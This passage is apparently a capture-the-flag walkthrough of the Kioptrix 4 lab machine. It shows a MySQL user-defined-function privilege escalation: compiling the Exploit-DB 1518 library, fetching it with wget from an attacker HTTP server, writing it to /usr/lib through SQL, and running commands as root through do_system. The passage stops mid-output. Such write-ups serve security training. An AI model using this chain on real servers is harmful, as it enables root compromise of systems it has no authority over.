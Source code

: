 Username `root` and no password! That makes it easy!

# [](#header-1)Privilege Escalation

# [](#header-2)Importing a User-Defined Function to Execute Commands

Another quick Google leads to the discovery of an [Exploit-DB entry](https://www.exploit-db.com/exploits/1518) that details how to load a user-defined function dynamic library in to MySQL so that we can execute commands in the context of the MySQL daemon. In this case, `root`.

Following the instructions in the Exploit-DB module, we'll compile the dynamic library.

`$ gcc -m32 -g -c 1518.c`

`$ gcc -m32 -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc`

Which will result in the file `1518.so` being created.

We'll send this over to the attacker machine using a python HTTP server and then continue to follow the remainder of the steps once we've logged in to MySQL.

`$ python -m SimpleHTTPServer`

`robert@Kioptrix4:/dev/shm$ wget 192.168.1.30:8000/1518.so`

```
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.34 - - [10/Jan/2020 21:00:55] "GET /1518.so HTTP/1.0" 200 -
```

`robert@Kioptrix4:/dev/shm$ mysql -u root -p`

```
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/dev/shm/1518.so')); # import the contents of the file in to the MySQL database.
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/1518.so'; # write the file to a folder with `root`:`root` permissions.
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname '1518.so'; # create a new function based on this dynamic library.
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func; # list the available functions
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
| do_system             |   2 | 1518.so             | function | 
+-----------------------+-----+---------------------+----------+
select do_system('id > /tmp/out; chmod 777 /tmp/out'); # execute the commands in `'` using the newly loaded function.
+------------------------------------------------+
| do_system('id > /tmp/out; chmod 777 /tmp/out') |
```